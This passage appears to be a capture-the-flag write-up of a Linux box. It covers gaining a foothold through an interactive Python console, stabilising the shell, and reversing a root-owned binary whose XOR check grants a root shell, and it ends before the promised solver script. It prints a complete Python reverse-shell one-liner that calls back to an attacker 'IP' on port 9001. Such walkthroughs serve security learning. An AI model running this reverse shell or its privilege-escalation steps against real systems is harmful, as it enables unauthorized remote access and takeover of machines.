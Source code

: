 We got an interactive python console, let's send ourselves a reverse shell and check if it works:

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")
```





![](Pasted image 20250509115732.png)


If we check our listener:

![](Pasted image 20250509115746.png)

There we go, let's proceed to privilege escalation.



# PRIVILEGE ESCALATION
---


First step is to stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](Pasted image 20250509115852.png)

With our stable shell, we can now look around the machine, let's use linpeas:

![](Pasted image 20250509121448.png)

We got a `try-harder` binary owned by root on our home directory, let's check it out using `ghidra`:


![](Pasted image 20250509121742.png)

As seen, in the main function, we got an interesting finding, The binary checks if our input satisfies the equation:  


```c
(input ^ 0x1116 ^ 0x56b3) = 0x56c021f4
```


If it does, we will get a shell as root, the program XORs the user input with two hardcoded constants and compares it to a known value. let's automate the process of getting the magic number with this python script:
